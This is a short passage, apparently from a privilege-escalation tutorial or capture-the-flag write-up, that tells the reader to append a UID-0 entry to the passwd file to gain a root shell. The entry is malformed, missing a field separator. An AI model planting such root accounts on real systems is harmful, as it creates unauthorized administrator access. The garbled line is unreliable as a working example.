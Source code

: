 ![Script Use](Img/22_Use_of_script.png)

- Add this hash with root permission in your passwd file as shown in picture. Add this line at last of file for root permission:

```bash 
salt:hash:0:0root:/root:/bin/bash
```
